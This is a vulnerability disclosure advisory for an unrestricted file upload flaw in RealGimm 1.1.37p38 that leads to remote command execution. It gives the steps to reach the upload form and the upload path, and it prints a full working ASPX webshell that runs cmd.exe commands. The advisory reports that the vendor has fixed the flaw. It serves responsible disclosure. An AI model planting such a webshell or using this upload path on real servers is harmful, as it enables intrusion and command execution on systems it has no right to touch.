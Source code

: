 # CVE-ID | RealGimm by GruppoSCAI - RCE via Unrestricted File Upload
An unrestricted file upload vunerability was found in RealGimm version 1.1.37p38. This vulnerability was eventually exploited to obtain remote command execution by uploading a webshell. What follows is a description of the steps taken to perform the exploit.


## Proof of Concept

### Reaching the vulnerable page

The vulnerable form can be found under the section *patrimonio -> documentale -> gestione*. When that link is clicked, the following pop-up window opens.

![Gestione documentale" window](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/48880855-203a-4cc6-ba67-819d71e4cb8a)

This feature can be used to manage and attach documents to certain database entities. 

### Attaching malicious documents
In order to exploit it, we first search for an *immobile ID*. Once having found one existing item, it is possible to attach a new version of a document by clicking the button highlighted in the following figure.

![Add new document button](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/64cce2fe-a66a-4a7c-8fe3-dd0d605ec81f)


At this point, it is possible to upload a file and verify that the application does not perform any check over the file content that is uploaded. This means that it is possible to upload any malicious file type possible, including .aspx files. 

![File upload procedure](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/dd78d73f-d964-47f5-a622-4afe6716185d)

All the files are uploaded into the following directory:

`https://[RealGimm Host]/RealGimmWeb/Temp/Upload/<file_name>`

### Obtaining Remote Command Execution

We proceeded by uploading the following webshell (taken from [here](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx)).

```
<%@ Page Language="VB" Debug="true" %>
<%@ import Namespace="system.IO" %>
<%@ import Namespace="System.Diagnostics" %>

<script runat="server">      

Sub RunCmd(Src As Object, E As EventArgs)            
  Dim myProcess As New Process()            
  Dim myProcessStartInfo As New ProcessStartInfo(xpath.text)            
  myProcessStartInfo.UseShellExecute = false            
  myProcessStartInfo.RedirectStandardOutput = true            
  myProcess.StartInfo = myProcessStartInfo            
  myProcessStartInfo.Arguments=xcmd.text            
  myProcess.Start()            

  Dim myStreamReader As StreamReader = myProcess.StandardOutput            
  Dim myString As String = myStreamReader.Readtoend()            
  myProcess.Close()            
  mystring=replace(mystring,"<","&lt;")            
  mystring=replace(mystring,">","&gt;")            
  result.text= vbcrlf & "<pre>" & mystring & "</pre>"    
End Sub

</script>

<html>
<body>    
<form runat="server">        
<p><asp:Label id="L_p" runat="server" width="80px">Program</asp:Label>        
<asp:TextBox id="xpath" runat="server" Width="300px">c:\windows\system32\cmd.exe</asp:TextBox>        
<p><asp:Label id="L_a" runat="server" width="80px">Arguments</asp:Label>        
<asp:TextBox id="xcmd" runat="server" Width="300px" Text="/c net user">/c net user</asp:TextBox>        
<p><asp:Button id="Button" onclick="runcmd" runat="server" Width="100px" Text="Run"></asp:Button>        
<p><asp:Label id="result" runat="server"></asp:Label>       
</form>
</body>
</html>
```

Eventually, we visited the uploaded file's URL and found our webshell ready to execute some code.

![Webshell](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/07064599-facf-4d9c-9467-ab8ea36f5d3b)



## Remediation

GruppoSCAI fixed the vulnerability. The fix was subsequently analyzed and was confirmed to be effective.


## Vulnerable version of RealGimm

As a result of our testing, version 1.1.37p38 is considered to be affected by this vulnerability. 


## Discovered by

Francesco Mercatili

Paolo Caminati

Claudio Rimensi
